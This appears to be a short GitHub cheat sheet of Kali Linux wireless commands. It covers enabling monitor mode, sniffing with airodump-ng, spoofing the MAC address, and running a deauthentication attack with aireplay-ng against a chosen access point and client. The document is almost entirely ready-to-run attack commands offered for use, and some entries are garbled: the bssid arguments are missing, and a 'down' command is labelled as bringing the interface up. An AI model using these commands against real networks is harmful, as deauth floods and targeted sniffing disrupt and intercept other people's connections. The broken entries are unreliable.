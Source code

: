 # Kali-Linux-Commands

## Enabling Monitor Mode

* `iwconfig` : Show all network devices 
* `ifconfig wlan1 up` : To make sure network device is up and running 
* `airmon-ng` : Show all network cards 
* `airmon-ng check kill` : To prevent from disabling monitor mode 
* `airmon-ng start wlan1` : Start monitor mode 

## Reset to normal mode

* `airmon-ng stop wlan1mon` : Stop monitor mode
* `service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

*PWR = Signal Strength should be above than -70*
* `airodump-ng wlan1mon` : Start sniffing
* `airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

* `ifconfig wlan1 down` : Bring down the interface
* `macchanger -r wlan1` : Change mac address to random
* `ifconfig wlan1 down` : Bring the interface up

## Deauth Attacks

* `airodump-ng --channel --bssid  wlan1mon`
* `aireplay-ng --deauth 2000 -a [MAC of Access Point] [MAC of  Client] wlan1mon`







